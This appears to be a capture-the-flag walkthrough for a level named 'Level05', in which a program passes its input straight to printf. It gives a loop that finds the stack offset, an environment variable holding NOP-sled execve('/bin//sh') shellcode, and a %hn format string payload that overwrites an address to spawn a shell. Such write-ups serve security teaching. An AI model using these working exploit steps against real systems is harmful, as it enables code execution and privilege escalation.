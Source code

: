 # Level05
This program is just a fgets call on stdin, converts characters in the buffer from uppercase to lowercase and prints the buffer with printf.
Since the buffer is directly used in printf, we can use a format string exploit.

We search the index of the buffer in the stack:
```bash
for((i=0; i<200; i++)); do echo "Index $i" && ./level05 <<< "aaaa%$i\$x"; done | grep -B1 61616161
```

Which give us:
```
Index 10
aaaa61616161
```

We inject our shellcode in the environment:
```bash
export SHELLCODE=`python -c 'print("\x90" * 0xffff + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")'`
```

We can use this payload:
```bash
cat <(python -c 'print ("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%249x%10$hn" + "%65278x%11$hn")') - | ./level05
```

